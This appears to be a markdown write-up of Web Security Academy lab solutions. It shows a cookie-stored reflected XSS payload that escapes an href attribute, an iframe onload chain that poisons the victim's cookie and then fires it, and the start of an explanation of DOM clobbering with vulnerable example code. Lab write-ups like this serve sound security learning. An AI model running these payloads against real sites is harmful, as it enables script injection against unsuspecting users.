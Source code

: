 The script assigns **window.location** (the current URL) as the value of a cookie named **lastViewedProduct**.


>SameSite=None → Allows cookies to be sent in cross-site requests, making them vulnerable to CSRF.
Secure → Ensures cookies are only transmitted over HTTPS.

If the url is
```
https://0a1000d30304788b800b94e0002800d2.web-security-academy.net/product?productId=1&test123
```
the payload will be reflected in 
```html
<a href='https://0a1000d30304788b800b94e0002800d2.web-security-academy.net/product?productId=1&test123'>Last viewed product</a>
```
I can escape by this payload:
```js
test123'><script>print()</script>
```
The problem is that the cookie (payload) needs to be stored first in the victim's browser before it can be reflected and executed. Manually, this requires visiting the payload URL twice—once to store the cookie and again to execute it.

To automate this, we use an iframe-based attack:
```html
<iframe src="https://0a1000d30304788b800b94e0002800d2.web-security-academy.net/product?productId=1&'><script>print()</script>" 
onload="if(!window.x)this.src='https://0a1000d30304788b800b94e0002800d2.web-security-academy.net';window.x=1;">
</iframe>
```

- First, the iframe loads the payload URL, **poisoning the user's cookie**. 
- Once the iframe finishes loading, the **onload** event is triggered.
    - `if(!window.x)` ensures this runs only once. 
    - The iframe's src is then changed to the home page, causing the browser to visit it with the poisoned cookie.
- Now, when the homepage is visited, the poisoned cookie is used, reflecting and executing the XSS payload.

## DOM clobbering

DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.

The term clobbering comes from the fact that you are "clobbering" a global variable or property of an object and overwriting it with a DOM node or HTML collection instead. For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as submit, to interfere with a form's actual submit() function. 

A common pattern used by JavaScript developers is:
```js
var someObject = window.someObject || {};
```
If you can control some of the HTML on the page, you can clobber the someObject reference with a DOM node, such as an anchor. Consider the following code:
```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
```